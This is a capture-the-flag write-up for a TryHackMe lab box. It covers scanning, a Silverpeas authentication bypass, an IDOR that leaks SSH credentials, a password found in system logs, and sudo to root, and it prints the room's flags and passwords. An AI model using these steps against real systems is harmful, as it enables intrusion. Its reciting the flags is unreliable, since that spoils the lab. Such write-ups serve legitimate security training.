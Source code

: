 
[[TryHackMe]] Room

**Date:** 15/01/25  
**Target IP:** 10.10.240.9

---
### **Initial Scanning**

**[[Nmap]] Results:**

- 22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- 80/tcp   open  http       nginx 1.18.0 (Ubuntu)
- 8080/tcp open  http-proxy

---
### **Exploration and Enumeration**

**Port 80 (HTTP):**

- Navigated to the website hosted on port 80.
- Contact page provides username for project manager on Silverpeas : scr1ptkiddy.

**DirSearch** :

```bash
Target: http://10.10.240.9/

[17:31:03] Starting: 
[17:31:18] 301 -  178B  - /assets  ->  http://10.10.240.9/assets/
[17:31:18] 403 -  564B  - /assets/
[17:31:28] 403 -  564B  - /images/
[17:31:28] 301 -  178B  - /images  ->  http://10.10.240.9/images/
[17:31:31] 200 -   17KB - /LICENSE.txt
[17:31:40] 200 -  771B  - /README.txt
```

```bash
Target: http://10.10.240.9:8080/

[17:31:58] Starting: 
[17:32:17] 302 -    0B  - /console/j_security_check  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/base/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/login/LoginForm.jsp  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/payments/config.json  ->  /noredirect.html
[17:32:17] 302 -    0B  - /console/  ->  /noredirect.html
[17:32:44] 302 -    0B  - /website  ->  http://10.10.240.9:8080/website/
```

Found /silverpeas endpoint on **Port 8080** which has a default Silverpeas login page.

---
### **Exploitation**

Gained access to the Silverpeas dashboard utilizing an Authentication Bypass vulnerability found on GitHub  [CVE-2024-36042](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d).

Once the dashboard loads, we are immediately prompted wit a notification message from "Manager". Opening the message navigates us to the URL : `http://10.10.240.9:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5`

Here, the ID column on inspection is found to have an IDOR vulnerability. Further, changing he ID value to 6, we obtain the following credentials within the message.

```bash
Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

SSH'd into tim@10.10.240.9 to obtain the user.txt flag : 
**THM{c4ca4238a0b923820dcc509a6f75849b}**

---
### **Post-Exploitation**

Running linpeas.sh provides the following : 

```bash
uid=0(root) gid=0(root) groups=0(root)
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

We observe that tim and tyler share the *adm* grp. We can thus check the /var/log files for potential data leaks. 

```bash
tim@silver-platter:/var/log$ cat * | grep 'tyler'
```

One of the results is the following : 

```bash
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

Using this password, we can SSH into the tyler user.

```bash
tyler@silver-platter:/tmp$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We observe that tyler has elevated privileges. we can thus run `sudo bash` to gain root access and obtain the root flag : 
**THM{098f6bcd4621d373cade4e832627b4f6}**

### **Summary**

- Project manager Silverpeas username : scr1ptkiddy
- tim user SSH password : `cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`
- User Flag ( /home/tim/user.txt ) : **THM{c4ca4238a0b923820dcc509a6f75849b}**
- tyler user SSH password : `_Zd_zx7N823/`
- Root Flag ( /root/root.txt ) : **THM{098f6bcd4621d373cade4e832627b4f6}**
